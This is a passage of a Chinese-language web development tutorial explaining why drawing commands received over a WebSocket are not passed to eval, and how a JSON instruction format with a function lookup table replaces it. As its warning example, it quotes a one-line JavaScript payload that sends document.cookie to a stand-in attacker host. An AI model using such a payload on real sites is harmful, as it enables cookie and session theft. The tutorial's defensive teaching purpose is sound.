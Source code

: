 现在，用户只要发送`"drawLine({ x: 0, y: 0 }, { x: 1, y: 1 }, 'red')"`，然后，啪：一条线就画出来了！

但是。。你可能已经有一些邪恶的小想法了。如果用户不怀好意，发送的指令是一些恶意代码，比如下面这个：

```js
"window.location='http://iwillp3wn.com?user_info=' + document.cookie;"
```

啊这。。那么我们的cookie就会被立即发送到iwillp3wn.com，然后我们可能就真的被入侵了。我们不能使用eval，这太危险了。

> pwn：黑客俚语，意思是入侵、攻破或者控制

所以，现在问题来了：不能使用`eval`，我们需要另一种方式来接收画图指令。

## 最初的想法

好吧，一个最简单的想法就是使用JSON。我们可以将指令按照约定的格式组织成JSON，执行的时候调用对应的方法，这样就避免任意执行恶意代码了，就像下面这样一个JSON：

```js
{
  instructions: [
    {
      functionName: "drawLine",
      args: [{ x: 0, y: 0}, { x: 1, y: 1}, "blue" ]
    },
  ]
}
```

上面这个JSON的会被转换成`drawLine({ x: 0, y: 0 }, { x: 1, y: 1}, 'blue')`

而这个转换过程实现起来也很容易：

```js
webSocket.onMessage(({ instructions }) => {
  const fns = {
    drawLine: drawLine,
    ...
  };

  instructions.forEach((ins) => {
    fns[ins.functionName](...ins.args);
  });
});
```

看上去也还凑合！

## 一个小简化

现在让我们在回过头看看上面的过程能不能再简化一点。这是我们的JSON：

```json
{
  "instructions": [
    {
      "functionName": "drawLine",
      "args": [{ "x": 0, "y": 0}, { "x": 1, "y": 1}, "blue" ]
    },
  ]
}
```
